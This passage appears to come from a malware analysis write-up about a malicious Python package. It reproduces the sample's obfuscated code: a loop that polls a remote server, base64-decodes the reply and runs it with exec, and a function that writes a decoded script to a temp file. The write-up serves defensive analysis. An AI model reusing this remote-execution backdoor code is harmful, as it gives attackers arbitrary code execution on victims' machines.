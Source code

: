 The last part of the script is the main while loop. 

```
while True:
  try:
      response = requests.post(url, headers=headers, data=data)
      if response.status_code != 200:
          sleep(60)
          continue
      else:
          res_str = response.text
          if res_str.startswith(codecs.decode('Tbbtyr.pbz', 'rot13')) and len(response.text) > 15:
              res = response.text
              borg = res[10:]
              dec_res = base64.b64decode(borg).decode('utf-8')

              globals()['pu_1'] = uid
              globals()['pu_2'] = url
              exec(compile(dec_res, '', 'exec'), globals())
              sleep(1)
              break
          else:
              sleep(20)
              pass

  except:
      sleep(60)
      continue
```

**Encoded Python script main while loop**

The first try block sends an HTTP POST request to the malicious server (url) with the headers and data. If the server responds with a status code other than 200 OK, the script waits 60 seconds and retries.

Else, if the response starts with the decoded string 'Google.com' and the response length is greater than 15, it extracts a base64-encoded portion of the response. It then decodes this portion and executes the decoded script using `exec(compile(dec_res, '', 'exec'), globals())`. This allows the attacker to send arbitrary Python code to be executed on the victim's machine.

Towards the end of the loop it sets global variables with the random uid and the URL used in communication with the remote server. This is used later when executing the downloaded payload.

Now that we understand the purpose of the encoded Python script let's go back to the `__inity__.py` script and break down the function that executes the base64-encoded section. 

##### __inity__.py

Back within the `__inity__.py` script we can look for any other reference to the `req_self` variable to see what the script does with that encoded Python script. We find one single reference located in a function defined as `cert_acc`. 

```
def cert_acc():
  ct_type = platform.system()
  l_p = tempfile.gettempdir()

  if ct_type == codecs.decode("Jvaqbjf", stream_method):
      l_p = l_p + codecs.decode('\\eronfr.gzc', stream_method)
      header_ops = codecs.decode(push_opr, stream_method) + l_p
  else:
      l_p = l_p + codecs.decode('/eronfr.gzc', stream_method)
      header_ops = codecs.decode(push_ops, stream_method) + l_p

  request_query = open(l_p, 'w')
  request_object = base64.b64decode(req_self)
  request_query.write(request_object.decode('utf-8'))
```